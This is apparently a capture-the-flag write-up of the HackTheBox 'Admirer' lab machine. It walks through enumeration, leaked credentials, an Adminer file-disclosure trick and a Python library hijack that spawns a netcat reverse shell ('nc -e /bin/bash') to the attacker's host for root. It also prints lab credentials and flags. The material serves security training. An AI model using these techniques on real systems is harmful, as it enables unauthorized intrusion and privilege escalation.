



**HackTheBox > Machines > Admirer**

key | val
---|---
OS | Linux
Difficulty | Easy
Points | 20
Release | 02 May 2020
IP | 10.10.10.187

# User flag

## Vhost

Add the IP to the `/etc/hosts` file:

~~~
$ echo "10.10.10.187 admirer.htb" | sudo tee -a /etc/hosts
~~~

## Services Enumeration

Nmap discovers 3 open ports: FTP, SSH and HTTP.

~~~
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 7.4p1 Debian 10+deb9u7 (protocol 2.0)
| ssh-hostkey: 
|   2048 4a:71:e9:21:63:69:9d:cb:dd:84:02:1a:23:97:e1:b9 (RSA)
|   256 c5:95:b6:21:4d:46:a4:25:55:7a:87:3e:19:a8:e7:02 (ECDSA)
|_  256 d0:2d:dd:d0:5c:42:f8:7b:31:5a:be:57:c4:a9:a7:56 (ED25519)
80/tcp open  http    Apache httpd 2.4.25 ((Debian))
| http-robots.txt: 1 disallowed entry 
|_/admin-dir
|_http-server-header: Apache/2.4.25 (Debian)
|_http-title: Admirer
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
~~~

## Web (80)

The FTP service doesn't allow anonymous access, so let's start with web. There is a `robots.txt` file that discloses a location: `/admin-dir`.

~~~
kali@kali:/data/Admirer$ curl -s http://10.10.10.187/robots.txt
User-agent: *

# This folder contains personal contacts and creds, so no one -not even robots- should see it - waldo
Disallow: /admin-dir
~~~

Enumerating the root directory with gobuster doesn't reveal anything interesting, but there are interesting `*.txt` files withing the `/admin-dir` directory:

~~~
kali@kali:/data/Admirer/files$ gobuster dir -u http://admirer.htb/admin-dir/ -x gz,tar,zip,bak,old,txt -w /usr/share/wordlists/dirb/big.txt
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://admirer.htb/admin-dir/
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirb/big.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Extensions:     old,txt,gz,tar,zip,bak
[+] Timeout:        10s
===============================================================
2020/09/09 15:58:45 Starting gobuster
===============================================================
/.htaccess (Status: 403)
/.htaccess.txt (Status: 403)
/.htaccess.gz (Status: 403)
/.htaccess.tar (Status: 403)
/.htaccess.zip (Status: 403)
/.htaccess.bak (Status: 403)
/.htaccess.old (Status: 403)
/.htpasswd (Status: 403)
/.htpasswd.txt (Status: 403)
/.htpasswd.gz (Status: 403)
/.htpasswd.tar (Status: 403)
/.htpasswd.zip (Status: 403)
/.htpasswd.bak (Status: 403)
/.htpasswd.old (Status: 403)
/contacts.txt (Status: 200)
/credentials.txt (Status: 200)
===============================================================
2020/09/09 16:08:18 Finished
===============================================================
~~~

The `contacts.txt` file contains usernames and email addresses:

~~~
kali@kali:/data/vpn$ curl -s http://10.10.10.187/admin-dir/contacts.txt
##########
# admins #
##########
# Penny
Email: p.wise@admirer.htb


##############
# developers #
##############
# Rajesh
Email: r.nayyar@admirer.htb

# Amy
Email: a.bialik@admirer.htb

# Leonard
Email: l.galecki@admirer.htb


#############
# designers #
#############
# Howard
Email: h.helberg@admirer.htb

# Bernadette
Email: b.rauch@admirer.htb
~~~

On the other hand, we are provided with credentials from the `credentials.txt` file:

~~~
kali@kali:/data/Admirer/files$ cat credentials.txt 
[Internal mail account]
w.cooper@admirer.htb
fgJr6q#S\W:$P

[FTP account]
ftpuser
%n?4Wz}R$tTF7

[Wordpress account]
admin
w0rdpr3ss01!
~~~

## FTP (21)

The FTP service doesnt't allow anonymous access, but we can login as `ftpuser` with the password from the credentials file.

~~~
kali@kali:/data/Admirer/files$ ftp admirer.htb
Connected to admirer.htb.
220 (vsFTPd 3.0.3)
Name (admirer.htb:kali): ftpuser
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls -la
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxr-x---    2 0        111          4096 Dec 03  2019 .
drwxr-x---    2 0        111          4096 Dec 03  2019 ..
-rw-r--r--    1 0        0            3405 Dec 02  2019 dump.sql
-rw-r--r--    1 0        0         5270987 Dec 03  2019 html.tar.gz
226 Directory send OK.
ftp> mget *
mget dump.sql? y
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for dump.sql (3405 bytes).
226 Transfer complete.
3405 bytes received in 0.00 secs (1.5390 MB/s)
mget html.tar.gz? y
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for html.tar.gz (5270987 bytes).
226 Transfer complete.
5270987 bytes received in 3.95 secs (1.2718 MB/s)
ftp> 221 Goodbye.
~~~

The `dump.sql` file is not interesting, but the `html.tar.gz` archive contains interesting information:

~~~
.
├── assets
├── images
├── index.php
├── robots.txt
├── utility-scripts
│   ├── admin_tasks.php
│   ├── db_admin.php
│   ├── info.php
│   └── phptest.php
└── w4ld0s_s3cr3t_d1r
    ├── contacts.txt
    └── credentials.txt
~~~

The `credentials.txt` file contains additional banking credentials, but this is not helpful. The `index.php` file contains credentials to connect to the database:

```php
$servername = "localhost";
$username = "waldo";
$password = "]F7jLHw:*G>UPrTo}~A"d6b";
$dbname = "admirerdb";
```

There is a `/utility-script` directory that seems to contain useful resources. Trying to access it from the web service confirms that there is a user (`waldo`) connected as SSH.



## Adminer

As the `/utility-scripts` directory seems to have been modified between the production version, and this backup, I decided to perform an enumeration of it, and found an interesting PHP file.

~~~
kali@kali:/data/Admirer/files/html/utility-scripts$ gobuster dir -u http://10.10.10.187/utility-scripts/ -x php,bak,old -w /usr/share/wordlists/dirb/big.txt 
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.10.187/utility-scripts/
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirb/big.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Extensions:     php,bak,old
[+] Timeout:        10s
===============================================================
2020/09/09 16:46:21 Starting gobuster
===============================================================
/.htaccess (Status: 403)
/.htaccess.php (Status: 403)
/.htaccess.bak (Status: 403)
/.htaccess.old (Status: 403)
/.htpasswd (Status: 403)
/.htpasswd.php (Status: 403)
/.htpasswd.bak (Status: 403)
/.htpasswd.old (Status: 403)
/adminer.php (Status: 200)
/info.php (Status: 200)
/phptest.php (Status: 200)
~~~

## Adminer exploit

The `adminer.php` script is a lightweight phpmyadmin-like application that allows to manage the database. However, using the credentials found from the `index.php` file did not work.



Searching for an exploit that would affect adminer v4.6.2 leads to [this page](https://www.acunetix.com/vulnerabilities/web/adminer-4-6-2-file-disclosure-vulnerability/). It is explained that adminer up to v4.6.2 included allows connection to an attacker server where it will be possible to dump files.

All you need to do is allow remote connections (`bind-address` parameter):

~~~
kali@kali:~$ grep /etc/mysql/mariadb.conf.d/bind-address 50-server.cnf 
#bind-address            = 127.0.0.1
bind-address		= 0.0.0.0
~~~

Create a database, a user, and a table with 1 field:

~~~
MariaDB [mysql]> create database admirer;
MariaDB [mysql]> grant all privileges on admirer.* to admirer@admirer.htb identified by 'admirer';
MariaDB [mysql]> use admirer;
MariaDB [admirer]> create table test(test text);
~~~

With the help of [this post](https://medium.com/bugbountywriteup/adminer-script-results-to-pwning-server-private-bug-bounty-program-fe6d8a43fe6f), I tried to send this request:

~~~
LOAD DATA LOCAL INFILE '/etc/passwd' 
INTO TABLE test
FIELDS TERMINATED BY "\n"
~~~

But it failed with the following error message: `Error in query (2000): open_basedir restriction in effect. Unable to open file`.

Then, I tried to read the `index.php` file at the root:

~~~
LOAD DATA LOCAL INFILE '../index.php' 
INTO TABLE test
FIELDS TERMINATED BY "\n"
~~~



It resulted in the following disclosure:

~~~
$servername = "localhost";
$username = "waldo";
$password = "&<h5b~yK3F#{PaPB&dA}{H>";
$dbname = "admirerdb";
~~~

## SSH

As it happens that the same credentials are used for different services, I tried to connect against the SSH service using the MySQL credentials found, and it worked.

~~~
$ sshpass -p "&<h5b~yK3F#{PaPB&dA}{H>" ssh waldo@10.10.10.187
~~~

## User flag

From here, I was able to read the user flag:

~~~
waldo@admirer:~$ cat user.txt 
4cf36ab2710c6ad21f25b7143a0af4df
~~~

User flag: `4cf36ab2710c6ad21f25b7143a0af4df`


# Root flag

## Web backup script

Checking waldo's privileges reveals the existence of an `admin_tasks.sh` script that we can run as `root`.

~~~
waldo@admirer:~$ sudo -l
[sudo] password for waldo: 
Matching Defaults entries for waldo on admirer:
    env_reset, env_file=/etc/sudoenv, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, listpw=always

User waldo may run the following commands on admirer:
    (ALL) SETENV: /opt/scripts/admin_tasks.sh
~~~

Below is the interesting part of the script:

```sh
[REDACTED]

backup_web()
{
    if [ "$EUID" -eq 0 ]
    then
        echo "Running backup script in the background, it might take a while..."
        /opt/scripts/backup.py &
    else
        echo "Insufficient privileges to perform the selected operation."
    fi
}

[REDACTED]
```

As we can see, the `backup_web()` function calls a python script: `/opt/scripts/backup.py`. And this latest imports the `make_archive` function from the `shutil` library:

~~~
waldo@admirer:~$ cat /opt/scripts/backup.py 
#!/usr/bin/python3

from shutil import make_archive

src = '/var/www/html/'

# old ftp directory, not used anymore
#dst = '/srv/ftp/html'

dst = '/var/backups/html'

make_archive(dst, 'gztar', src)
~~~

## Hooking the `sh_util` library

We can write a custom `sh_util` library...

~~~
waldo@admirer:~$ TMP=$(mktemp -d)
waldo@admirer:~$ cd $TMP
waldo@admirer:/tmp/tmp.0rx1UTLBlF$ cat > shutil.py << EOF
> import os
> def make_archive(dst, tar, src):
>     os.system("nc -e /bin/bash 10.10.14.22 4444")
> EOF
~~~

...and force the program to use this library:

~~~
waldo@admirer:/tmp/tmp.0rx1UTLBlF$ sudo PYTHONPATH=$TMP /opt/scripts/admin_tasks.sh

[[[ System Administration Menu ]]]
1) View system uptime
2) View logged in users
3) View crontab
4) Backup passwd file
5) Backup shadow file
6) Backup web data
7) Backup DB
8) Quit
Choose an option: 6
Running backup script in the background, it might take a while...
~~~

## Root flag

In a listener that was running prior to executing the script, we now have a privileged shell:

~~~
kali@kali:/data/vpn$ rlwrap nc -nlvp 4444
listening on [any] 4444 ...
connect to [10.10.14.22] from (UNKNOWN) [10.10.10.187] 39596
id
uid=0(root) gid=0(root) groups=0(root)
ls -la /root
total 36
drwx------  3 root root 4096 Apr 22 11:45 .
drwxr-xr-x 22 root root 4096 Apr 16 13:30 ..
lrwxrwxrwx  1 root root    9 Nov 29  2019 .bash_history -> /dev/null
-rw-r--r--  1 root root  570 Nov 30  2019 .bashrc
-rw-------  1 root root   50 Dec  3  2019 .lesshst
lrwxrwxrwx  1 root root    9 Nov 29  2019 .mysql_history -> /dev/null
drwxr-xr-x  2 root root 4096 Nov 30  2019 .nano
-rw-r--r--  1 root root  148 Jun 10  2018 .profile
-rw-------  1 root root   33 Sep 11 16:18 root.txt
-rw-r--r--  1 root root   66 Apr 22 11:45 .selected_editor
-rw-r--r--  1 root root  165 Dec  2  2019 .wget-hsts
cat /root/root.txt
6f1e3d93678a82b0c254fa318930619e
~~~

Root flag: `6f1e3d93678a82b0c254fa318930619e`
